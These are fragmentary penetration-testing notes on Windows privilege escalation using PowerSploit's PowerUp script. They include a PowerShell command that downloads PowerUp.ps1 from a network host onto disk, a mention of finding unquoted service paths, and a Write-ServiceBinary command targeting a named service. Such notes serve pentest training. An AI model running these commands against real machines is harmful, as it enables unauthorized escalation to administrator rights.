

https://hacknpentest.com/windows-privilege-escalation-using-powershell/
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
iex (New-Object Net.WebClient).DownloadFile(‘http://192.168.1.6/PowerUp.ps1′,’C:\Users\Flopster\PowerUp.ps1’)
Once the script is downloaded, we Invoke the script using dot parsing as shown below
(this technique is noisy as we are directly downloading script into the disk).
Powerup’s Get-ServiceUnquoted function searches all the service path and returns a set of service which has insecure path misconfigured during installation.

Write-ServiceBinary -ServiceName ‘exacqVisionServer’ -Verbose

Service Executable Weak Permissions